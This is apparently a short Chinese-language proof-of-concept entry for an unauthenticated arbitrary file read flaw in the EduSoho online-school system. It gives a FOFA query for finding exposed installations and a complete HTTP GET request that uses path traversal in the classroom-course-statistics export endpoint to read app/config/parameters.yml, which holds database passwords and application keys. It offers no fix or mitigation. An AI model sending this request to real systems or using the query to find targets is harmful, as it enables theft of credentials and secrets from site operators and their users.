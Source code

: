 ## EduSoho教培系统classropm-course-statistics存在任意文件读取漏洞

EduSoho 教培系统是由杭州阔知网络科技研发的开源网校系统。EduSoho教培系统classropm-course-statistics存在任意文件读取漏洞，未授权的攻击者可通过该漏洞读取敏感文件如app/config/parameters.yml，获取系统数据库账号密码，应用密钥等敏感信息。

## fofa

```
body="Powered By EduSoho" || body="www.edusoho.com"
```

## poc

```
GET /export/classroom-course-statistics?fileNames[]=../../../config/parameters.yml HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=2vtqc388p6rhcueiipc5l97jtg
Upgrade-Insecure-Requests: 1
```

![image-20240707200131136](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407072001203.png)